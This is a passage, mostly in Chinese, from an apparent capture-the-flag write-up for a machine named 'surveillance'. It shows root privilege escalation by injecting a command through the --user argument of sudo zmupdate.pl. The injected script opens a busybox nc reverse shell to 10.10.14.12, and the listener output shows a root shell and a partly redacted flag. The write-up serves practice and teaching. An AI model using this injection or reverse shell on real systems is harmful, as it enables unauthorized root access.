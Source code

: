 
卡了。感觉要分析代码，但是看了下这些pl文件都是几百上千行的，结果就开摆了。
最后看大佬提示完成提权最后一步。似乎真的要代码审计，确认出 `zmupdate.pl` 是可以利用的：
```bash
zoneminder@surveillance:/tmp$ cat test.sh 
busybox nc 10.10.14.12 4446 -e bash
zoneminder@surveillance:/tmp$ sudo /usr/bin/zmupdate.pl --version=1 --user='$(/tmp/test.sh)' --pass=ZoneMinderPassword2023

Initiating database upgrade to version 1.36.32 from version 1

WARNING - You have specified an upgrade from version 1 but the database version found is 1.36.32. Is this correct?
Press enter to continue or ctrl-C to abort : 

Do you wish to take a backup of your database prior to upgrading?
This may result in a large file in /tmp/zm if you have a lot of events.
Press 'y' for a backup or 'n' to continue : n

Upgrading database to version 1.36.32
Upgrading DB to 1.26.1 from 1.26.0
```


## flag: root

接收上面运行后得到的反弹shell，拿flag：
```bash
└─$ nc -lvnp 4446
listening on [any] 4446 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.11.245] 33042
id
uid=0(root) gid=0(root) groups=0(root)
cat /root/root.txt
fb09 (...) 29cd
```


---

## 总结·后记

2023/12/13

……